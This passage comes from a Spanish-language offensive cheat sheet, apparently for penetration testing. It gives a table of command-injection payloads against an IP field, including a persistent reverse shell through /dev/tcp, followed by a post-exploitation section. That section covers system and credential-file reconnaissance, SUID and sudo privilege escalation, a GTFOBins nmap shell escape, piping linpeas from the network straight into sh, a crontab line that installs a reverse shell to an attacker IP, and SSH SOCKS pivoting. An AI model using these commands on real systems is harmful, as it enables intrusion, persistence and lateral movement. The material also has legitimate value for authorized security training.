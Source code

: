 | Payload de Ejemplo | Función |
|---|---|
| `127.0.0.1; whoami` | Ver usuario del proceso. |
| `127.0.0.1; uname -a` | Ver info sistema. |
| `127.0.0.1 && id` | Ejecuta `id` si el comando anterior tuvo éxito. |
| `127.0.0.1; sleep 5 && echo "test"` | Blind injection por tiempo. |
| `127.0.0.1; nohup bash -c 'bash -i >& /dev/tcp/IP/PUERTO 0>&1' &` | Reverse shell persistente en segundo plano. |

--- 

## 🚀 FASE 4: POST-EXPLOTACIÓN

### 4.1. Reconocimiento Post-Explotación

```bash
whoami
id
uname -a
cat /etc/os-release
cat /etc/passwd
ps aux
netstat -tupln
arp -a
```

### 4.2. Escalación de Privilegios

```bash
# Verificación de permisos sudo (vector de escalación clave)
sudo -l

# Búsqueda de binarios SUID
find / -perm -u=s -type f 2>/dev/null

# Búsqueda de tareas programadas
crontab -l

# Explotación de Sudo/SUID (Referencia GTFOBins)
sudo nmap --interactive
nmap> !sh

# Scripts de Automatización para Escalación
./LinEnum.sh
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### 4.3. Técnicas de Persistencia y Movimiento Lateral

```bash
# Persistencia via crontab
echo "*/10 * * * * /bin/bash -c 'bash -i >& /dev/tcp/[IP_atacante]/4444 0>&1'" >> /var/spool/cron/root

# Túnel dinámico (SOCKS Proxy) para pivoting
ssh -D 9050 user@[IP_objetivo]
```
